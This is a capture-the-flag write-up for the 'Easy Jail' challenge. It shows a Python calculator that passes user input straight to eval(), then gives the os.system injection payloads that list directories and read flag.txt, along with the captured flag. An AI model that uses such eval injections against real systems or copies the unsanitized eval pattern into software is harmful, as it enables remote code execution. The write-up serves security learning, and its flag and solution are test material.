




# Easy Jail
Description - "I made this calculator. I have a feeling that it's not safe :( "


## flag
```
KashiCTF{3V4L_41NT_54F3_IyGdK9hp}
```
## Solution 
We were given a `netcat` link which upon instantiating, showed this:

 

along with a zip file that contained the python source code:
```
#!/usr/bin/env python3

print("           _            _       _             ")
print("          | |          | |     | |            ")
print("  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __ ")
print(" / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|")
print("| (_| (_| | | (__| |_| | | (_| | || (_) | |   ")
print(" \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|   ")

def calc(op):
	try : 	
		res = eval(op)
	except :
		return print("Wrong operation")
	return print(f"{op} --> {res}")

def main():
	while True :
		inp = input(">> ")
		calc(inp)

if __name__ == '__main__':
	main()
```

## Steps
Upon inspecting the source code, we see that it uses the `eval` function, which is vulnerable as it can be used for `RCE (Remote Code Execution)` .

Which gives the idea for giving the input as: 
> `__import__('os').system('ls')`

Upon executing this, we get the list of programs present, which is same as those present in the given zip file.




So, we went to the parent folder, and checked the files present there.
> `__import__('os').system('cd ..; ls')`

This gives a whole lot of folders and files, among which there is a `flag.txt`.



So, we run the command:

> `__import__('os').system('cd ..; cat flag.txt')`



which gives us the flag as:
### `KashiCTF{3V4L_41NT_54F3_IyGdK9hp}`